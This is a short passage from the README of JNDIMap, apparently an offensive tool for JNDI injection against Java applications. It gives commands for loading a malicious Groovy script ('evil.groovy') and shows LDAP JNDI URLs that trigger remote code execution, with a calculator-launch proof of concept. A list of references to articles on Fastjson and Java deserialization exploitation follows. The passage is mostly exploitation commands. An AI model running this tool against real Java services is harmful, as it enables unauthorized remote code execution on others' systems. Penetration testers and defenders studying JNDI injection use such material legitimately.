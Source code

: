 Start JNDIMap

```bash
java -jar JNDIMap.jar -f /path/to/evil.groovy
```

Achieve RCE via the following JNDI URL

```bash
# supports passing parameters to Groovy scripts manually
ldap://127.0.0.1:1389/Custom/<args>
```

In some cases, the JNDI URL is not completely controllable, so you can specify the `-u` parameter

```bash
java -jar JNDIMap.jar -f /path/to/evil.groovy -u "/Custom/open -a Calculator"
```

Then trigger via any JNDI URL

```bash
ldap://127.0.0.1:1389/x
```

## Reference

[https://tttang.com/archive/1405/](https://tttang.com/archive/1405/)

[https://paper.seebug.org/1832/](https://paper.seebug.org/1832/)

[https://xz.aliyun.com/t/12846](https://xz.aliyun.com/t/12846)

[http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce](http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce)

[https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson 与原生反序列化/](https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)

[https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson 与原生反序列化-二/](https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/)

[https://www.yulegeyu.com/2022/11/12/Java 安全攻防之老版本 Fastjson 的一些不出网利用/](https://www.yulegeyu.com/2022/11/12/Java%E5%AE%89%E5%85%A8%E6%94%BB%E9%98%B2%E4%B9%8B%E8%80%81%E7%89%88%E6%9C%ACFastjson-%E7%9A%84%E4%B8%80%E4%BA%9B%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8/)

[https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/](https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/)